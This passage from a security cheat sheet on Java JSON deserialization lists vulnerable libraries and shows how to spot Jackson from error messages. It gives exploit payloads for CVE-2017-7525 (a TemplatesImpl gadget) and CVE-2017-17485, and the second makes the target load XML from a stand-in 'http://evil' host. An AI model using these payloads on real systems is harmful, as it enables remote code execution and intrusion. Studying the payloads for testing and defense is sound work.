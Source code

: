 ## JSON Deserialization

Multiple libraries can be used to handle JSON in Java.

* [json-io](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#json-io-json)
* [Jackson](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json)
* [Fastjson](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#fastjson-json)
* [Genson](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#genson-json)
* [Flexjson](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#flexjson-json)
* [Jodd](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jodd-json)

**Jackson**:

Jackson is a popular Java library used for working with JSON (JavaScript Object Notation) data.
Jackson-databind supports Polymorphic Type Handling (PTH), formerly known as "Polymorphic Deserialization", which is disabled by default.

To determine if the backend is using Jackson, the most common technique is to send an invalid JSON and inspect the error message. Look for references to either of those:

```java
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

* com.fasterxml.jackson.databind
* org.codehaus.jackson.map

**Exploitation**:

* **CVE-2017-7525**

  ```json
  {
    "param": [
      "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
      {
        "transletBytecodes": [
          "yv66v[JAVA_CLASS_B64_ENCODED]AIAEw=="
        ],
        "transletName": "a.b",
        "outputProperties": {}
      }
    ]
  }
    ```

* **CVE-2017-17485**

  ```json
  {
    "param": [
      "org.springframework.context.support.FileSystemXmlApplicationContext",
      "http://evil/spel.xml"
    ]
  }
  ```
